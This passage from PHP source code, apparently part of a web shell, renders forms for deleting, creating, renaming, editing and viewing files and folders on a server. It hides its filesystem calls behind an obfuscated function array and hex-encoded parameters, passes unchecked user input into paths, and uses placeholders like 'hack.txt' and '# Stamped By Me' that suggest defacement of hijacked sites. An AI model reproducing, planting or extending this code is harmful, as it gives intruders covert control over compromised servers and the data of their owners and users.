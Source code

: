 <?php if ($a == "delete") {
	$loc = $p.'/'.nhx($_GET["n"]);
	if ($_GET["t"] == "d") {
		deldir($loc);
		if (!$fc[12]($loc)) {
			a("folder deleted successfully");
		} else {
			a("failed to delete the folder", 0);
		}
	}
	if ($_GET["t"] == "f") {
		$loc = $p.'/'.nhx($_GET["n"]);
		unlink($loc);
		if (!$fc[12]($loc)) {
			a("file deleted successfully");
		} else {
			a("file to delete the folder", 0);
		}
	}
}
?>
<?php if ($a == "newDir"): ?>
<h5 class="border p-1 mb-3">New folder</h5>
<form method="post"><div class="form-group"><label for="n">Name :</label><input name="n" id="n" class="form-control" autocomplete="off"></div><div class="form-group"><button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button></div></form>
<?php ((isset($_POST["s"])) ? ($fc[12]("$p/{$_POST["n"]}") ? a("folder name has been used", 0, "&a=".hex("newDir")) : ($fc[15]("$p/{$_POST["n"]}") ? a("folder created successfully") : a("folder failed to create", 0))) : null); elseif ($a == "newFile"): ?>
<h5 class="border p-1 mb-3">New file</h5>
<form method="post"><div class="form-group"><label for="n">File name :</label><input type="text" name="n" id="n" class="form-control" placeholder="hack.txt"></div><div class="form-group"><label for="ctn">Content :</label><textarea style="resize:none" name="ctn" id="ctn" cols="30" rows="10" class="form-control" placeholder="# Stamped By Me"></textarea></div><div class="form-group"><button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button></div></form>
<?php ((isset($_POST["s"])) ? ($fc[12]("$p/{$_POST["n"]}") ? a("file name has been used", 0, "&a=".hex("newFile")) : ($fc[13]("$p/{$_POST["n"]}", $_POST["ctn"]) ? a("file created successfully",1,"&a=".hex("view")."&n=".hex($_POST["n"])) : a("file failed to create", 0))) : null); elseif ($a == "rename"): ?>
<h5 class="border p-1 mb-3">Rename <?= (($_GET["t"] == "d") ? "folder" : "file") ?></h5>
<form method="post"><div class="form-group"><label for="n">Name :</label><input type="text" name="n" id="n" class="form-control" value="<?= nhx($_GET["n"]) ?>"></div><div class="form-group"><button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button></div></form>
<?php ((isset($_POST["s"])) ? ($fc[16]($p.'/'.nhx($_GET["n"]), $_POST["n"]) ? a("successfully changed the folder name") : a("failed to change the folder name", 0)) : null); elseif ($a == "edit"): ?>
<h5 class="border p-1 mb-3">Edit file</h5>
<span>File name : <?= nhx($_GET["n"]) ?></span>
<form method="post"><div class="form-group"><label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control"><?= $fc[18]($fc[14]($p.'/'.nhx($_GET["n"]))) ?></textarea></div><div class="form-group"><button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button></div></form>
<?php ((isset($_POST["s"])) ? ($fc[13]($p.'/'.nhx($_GET["n"]), $_POST["ctn"]) ? a("file contents changed successfully", 1, "&a=".hex("view")."&n={$_GET["n"]}") : a("file contents failed to change")) : null); elseif ($a == "view"): ?>
<h5 class="border p-1 mb-3">View file</h5>
<span>File name : <?= nhx($_GET["n"]) ?></span>